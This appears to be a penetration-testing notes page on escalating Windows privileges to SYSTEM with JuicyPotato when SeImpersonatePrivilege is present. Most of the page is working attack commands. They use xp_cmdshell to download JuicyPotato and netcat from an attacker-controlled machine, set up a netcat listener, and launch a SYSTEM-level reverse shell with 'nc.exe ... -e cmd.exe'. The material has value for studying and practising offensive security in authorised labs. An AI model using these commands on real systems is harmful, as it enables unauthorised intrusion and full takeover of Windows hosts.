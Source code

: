```yaml
---
title: JuicyPotato
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
  - privilege
---
```

# 🥔 JuicyPotato

Escalating privileges to `SYSTEM` level when the command `whoami /priv` confirms that [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/seimpersonateprivilege-secreateglobalprivilege) is listed for our user.

[RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) and its [variants](https://github.com/decoder-it/lonelypotato) leverages the privilege escalation chain based on [`BITS`](https://msdn.microsoft.com/en-us/library/windows/desktop/bb968799\(v=vs.85\).aspx) [service](https://github.com/breenmachine/RottenPotatoNG/blob/4eefb0dd89decb9763f2bf52c7a067440a9ec1f0/RottenPotatoEXE/MSFRottenPotato/MSFRottenPotato.cpp#L126) having the MiTM listener on `127.0.0.1:6666` and when you have `SeImpersonate` or `SeAssignPrimaryToken` privileges. During a Windows build review we found a setup where `BITS` was intentionally disabled and port `6666` was taken.

Download from: [https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)


**1.** Upload the `JuicyPotato.exe` binary and upload this and `nc.exe` to the target server. 

```
# Serve the content from your kali attacking machine
python3 -m http.server 80

# If we have for example a myssql connection 
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/JuicyPotato.exe -outfile JuicyPotato.exe"
xp_cmdshell "powershell -c cd C:\Tools; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe"
```


**2.**  Set a listener in your attacking machine:

```
nc -lnvp 1234
```

**3.** Run JuicyPotato:

```
# From the myssql connection
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe $IPattackingMachine 1234 -e cmd.exe" -t *

# From a terminal run by an user with SeImpersonatePrivilege:
.\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe  $IPattackingMachine 1234 -e cmd.exe" -t *
```


